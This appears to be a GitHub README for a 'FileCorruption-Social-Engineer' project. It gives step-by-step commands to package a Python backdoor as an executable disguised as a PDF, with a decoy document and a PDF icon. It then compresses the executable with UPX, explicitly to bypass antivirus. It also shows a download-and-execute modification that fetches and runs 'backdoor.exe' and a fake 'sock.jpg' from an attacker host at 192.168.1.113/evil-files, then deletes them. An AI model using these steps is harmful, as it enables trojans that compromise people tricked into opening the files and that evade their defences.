 # FileCorruption-Social-Engineer-
From python file, to pdf or any file 

Taking "[Backdoor]Target" as main example, we're gonna explain how to convert .py files to executables or other files.

# (Windows)

 pyinstaller.exe backdoor.py --onefile --noconsole -> executable file

# (Linux)

1 - # wine pyinstaller.exe backdoor.py --onefile --noconsole -> executable file

2 - # wine pyinstaller.exe --add-data "/root/Downloads/example.pdf;." --onefile --noconsole backdoor.py

This one also requieres python modification, by adding:

	try:
   	   file_name = sys._MEIPASS + "example.pdf" 
	except Exception:
   	   file_name = os.path.abspath(".") + "example.pdf"

3 - # wine pyinstaller.exe --add-data "/root/Downlopads/example.pdf;." --onefile --noconsole --icon /root/Downloads/pdf.ico backdoor.py

4 - (Packaging the files to bypass antivirus and firewalls)
    cd /opt/upx
    ./upx /root/Desktop/Git\ Projects/Backdoor/\[Backdoor\]Target/AllInOne/dist/backdoor.exe -o compressed_backdoor.exe

Another example we can go through is "download_execute.py", where we modify the file to execute another download instead of reporting

Python modification:

	# Popen to continue the execution
	download("http://192.168.1.113/evil-files/sock.jpg")
	result = subprocess.Popen("sock.jpg", shell=True)
	
	# Call will pause and won't do anything till the hacker closes the bd
	download("htpp://192.168.1.113/evil-files/backdoor.exe")
	result = subprocess.call("backdoor.exe", shell=True)

	os.remove("sock.jpg")
	os.remove("backdoor.exe")
